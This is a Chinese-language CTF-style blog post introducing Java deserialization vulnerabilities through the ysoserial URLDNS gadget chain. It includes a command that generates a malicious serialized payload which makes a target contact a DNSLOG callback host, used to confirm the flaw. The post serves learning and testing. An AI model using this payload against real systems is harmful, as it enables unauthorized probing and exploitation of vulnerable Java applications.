 ```yaml
---
layout: post
title: Web-Java-反序列化漏洞-ysoserial-URLDNS
excerpt: "本文以最简单的DNSLOG来对JAVA反序列化漏洞进行入门级的介绍"
date:   2021-05-20 09:20:00
categories: [CTF]
comments: true
---
```


## 背景知识

1. *ysoserial*包含了许多针对通用Java依赖包的小工具链，可以在正常情况下通过使目标程序进行不安全的反序列化实现攻击利用。

2. Gadgets

   ```java
   /* 
    *   Gadget Chain:
    *     HashMap.readObject()
    *       HashMap.putVal()
    *         HashMap.hash()
    *           URL.hashCode()
    */
   ```
   
3. Java序列化

   * Java原生序列化和反序列化将属性的类名同时写入到了序列化流中
   * Java反序列化时会调用ObjectInputStream的readObject()方法来进行反序列化
   * 无论反序列化是否成功，只要读取到类名就会加载这个类，如果该类有自定义的readObjec()就执行自定义的readObject()方法，如果没有就按照默认的readObject()流程执行，因此只要readObject()存在调用点，无论业务代码中是否使用了这些类，都会执行readObject()过程从而执行恶意代码

## 验证过程

* 在DNSLOG网站上申请一个子域名，来作为攻击成功的指标

  > * 点击Get SubDomain可以生成一个该网站的子域名，供白嫖使用
  > * 点击Refresh Record该网站会显示该网站被访问的记录，也就是说只要有人访问这个子域名就会显示访问记录，所以用来验证的恶意代码就是让目标程序访问该子域名，一旦出现记录，代表攻击成功

  <img src="https://monkeydatabase.github.io/img/image-20210520172009189.png" alt="image-20210520172009189" />

* 通过ysoserial生成一个恶意的序列化流

  * 调用ysoserial程序，恶意载荷类型为`URLDNS`，恶意载荷为`http://vutajm.dnslog.cn`(注意一定要声明协议为http协议)，生成之后将生成的恶意载荷转存到hack文件

    ```shell
    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS 'http://vutajm.dnslog.cn' > hack
    ```

  * 使用ghex查看hack文件

    ![image-20210520172843858](https://monkeydatabase.github.io/img/image-20210520172843858.png)
